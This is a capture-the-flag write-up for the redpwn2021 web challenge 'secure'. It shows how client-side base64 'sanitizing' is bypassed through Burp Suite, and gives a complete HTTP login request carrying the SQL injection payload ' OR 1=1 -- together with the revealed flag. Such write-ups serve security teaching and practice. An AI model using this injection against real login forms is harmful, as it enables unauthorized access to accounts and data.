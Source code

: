 # redpwn2021


# secure
**Category:** web  
**Description:** 
Just learned about encryption—now, my website is unhackable!

secure.mc.ax

# solution
This problem is a simple sql injection.  When looking at the javascript, you can find that the input is 'sanitized' client side via base 64 encoding, thereby preventing any direct sql injection through the input boxes.  However, this can be very easily bypassed by using burp suite.  Burp allows you to directly modify the packet sent, so you can change the base64 encoded password in the request sent to the sql injection to bypass b64 encoding and get the flag.

<br>

```
My Example Burp Request:
POST /login HTTP/1.1
Host: secure.mc.ax
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: https://secure.mc.ax
Connection: close
Referer: https://secure.mc.ax/?message=flag%7B50m37h1n6_50m37h1n6_cl13n7_n07_600d%7D
Upgrade-Insecure-Requests: 1

username=YWRtaW4%3D&password=' OR 1=1 -- 
```
<br>
YWRtaW4%3D is base64 & url encoded 'admin'
